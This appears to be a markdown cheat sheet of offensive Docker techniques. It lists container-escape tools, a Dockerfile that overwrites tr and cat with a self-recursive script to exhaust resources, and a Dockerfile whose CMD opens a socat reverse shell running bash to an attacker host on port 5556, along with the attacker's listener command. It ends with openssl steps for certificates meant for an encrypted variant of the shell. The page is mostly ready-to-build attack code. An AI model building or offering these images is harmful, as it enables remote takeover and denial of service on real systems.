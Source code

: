 ## Useful tools

- https://github.com/genuinetools/amicontained
- https://github.com/brompwnie/botb
- https://github.com/wagoodman/dive


### Dockerfile Recursive Resource Exhaustion 
```
FROM docker
RUN mkdir /app
WORKDIR /app
RUN touch evulbin
RUN echo '#!/bin/sh' >> evulbin
RUN echo 'tr | tr' >> evulbin
RUN chmod +x /app/evulbin
RUN cp /app/evulbin /usr/bin/tr
RUN cp /app/evulbin /bin/cat
RUN cat
```

### Docker Image with CMD SOCAT command (plaintext)
Build this image and receive a plaintext connection to your SOCAT handler when the image is run for a Container. 
```
FROM ubuntu:latest
RUN  apt update && apt install -y socat
CMD socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:x.x.x.x:5556

```

To receive the shell from your SOCAT command above, run the following command on your jumpbox:

```
socat file:`tty`,raw,echo=0 tcp-listen:5556 
```

### Docker Image with RUN SOCAT command (mTLS)

Setup the TLS certificates for the server:

```
openssl genrsa -out server.key 4096
openssl req -new -key server.key -x509 -days 15 -out server.crt -subj "/C=RU/ST=x/L=x/O=x Network/OU=IT Department/CN=someserver.online.com"
cat server.key server.crt >server.pem
chmod 600 server.key server.pem
```

Setup the TLS certificates for the client:

```
openssl genrsa -out client.key 4096
openssl req -new -key client.key -x509 -days 15 -out client.crt -subj "/C=RU/ST=x/L=x/O=x Network/OU=IT Department/CN=someserver.online.com"
cat client.key client.crt >client.pem
chmod 600 client.key client.pem
```
